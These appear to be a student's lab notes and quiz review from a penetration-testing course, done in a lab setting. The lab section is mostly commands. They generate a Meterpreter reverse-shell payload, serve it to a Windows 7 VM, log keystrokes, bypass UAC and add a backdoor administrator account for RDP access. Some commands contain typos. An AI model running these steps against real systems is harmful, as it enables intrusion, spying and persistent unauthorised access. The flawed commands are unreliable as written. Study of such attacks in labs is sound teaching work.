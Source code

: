 # Lab and Quiz Review
## Quiz
1. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine
  * more practical and widely used
3. Posting on a website is _**not**_ the only way to deliver the payload/malicious code
4. Only the `sessions` command can view and interact with a background session
5. Penetrations testing can evelauate the security of the system or network

* False Statements: cannot be used to identify the vulnerabilities let undetected by automated vulnerability scanners; is an unauthroized attempt to exploit a computer system
7. `screenshot` is the command used to create a printscreen from the target machine in the Meterpreter shell
8. `use exploit` command is used to select an exploit
9. In the `Windows Shell` environment attacker can use “net user” to create an account
10. The `set` command is used to select a payload

## Lab
### Task A
#### Kali Terminal 1

`
msfconsole // opens the shell
use exploit/multi handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.169.10.13  // ip address of the attacker
set lport 30122
show options` // shows us that we have the correct information added
exploit
`

#### Kali Terminal 2

`
msfvenom -p windows.meterpreter/reverse_tcp lhost=192.168.10.13 lport=30122 -f exe -o kboeh002.exe
`
// kboeh002.exe is the payload we just created

Next step is to deliver it to the fake website

`
service apache2 start
cp kboeh002.exe /var/www/html/
ls /var/www/html
`  // lists content so we can double check it has been properly uploaded


### Windows 7

Access the ip address of the attacker machine and /filename

`192.168.10.13/kboeh002.exe` which will download the payload, then you must run it

### Task B

#### Kali Terminal 1

`screenshot'

* if you use the `screenshare` command it will stream the desktop, similar to sharing a screen in discord or zoom

`keyscan` command to pick up keystrokes from target

`keyscan_start`

#### Windows 7

Type "This is Kristiana Boehmer, happy spring break!"

#### Kali Terminal 1

`keyscan_dump` // returns keystrokes

`keyscan_stop` // ends the keystroke record

#### Kali Terminal 3

// Create document with date

`
echo -e "$(date)" > ~/IMadeIt-kboeh002.txt
`

### Kali Terminal 1

* must specify souce and destination paths

`
upload IMadeIt-kboeh002.txt
`

It will upload by default to the current location in the system, if you want it to go to a different location...

`upload IMadeIt-kboeh002.txt 'C:\Users\Windows 7\Desktop'` // this will upload it to the desktop of the target

### Task C
#### Kali Terminal 1

we need to background the current session

`
background
sessions
` 
// allows you to see your current sessions

`
search bypassuac
`

Use the `use` command to apply the first given location

`
use exploit/windows/local/bypassuac
set session 1
show options
exploit
`

Now with this session, we have admin privilages
* anything with admin privilages is able to save in a system protected folder ('System32')

`
net user
shell
`

Want to be in the System 32 folder because it means you are an admin

`
net user /add Kristiana passWoRd
net localgroup administrator Kristiana /add
`
// adds administrators privilages to the account created

#### Windows 7 Terminal
`
netstat
`

* the return is the current sessions running in the background. the one with the attacker's IP address and port number is the attacker (it is under foreign address that you see this information)

#### Kali Terminal 4
`
rdesktop -h
rdesktop 192.168.10.13 -u Kristiana -p passWoRd
`
// Note: if you didn't add the admin privilages it won't work

You should now see a popout with the remote desktop of the Windows 7 VM and have all the normal access you would have if you logged into it directly

`

`



# Password Security
### 3/21/22
* dd 
* d

`

`
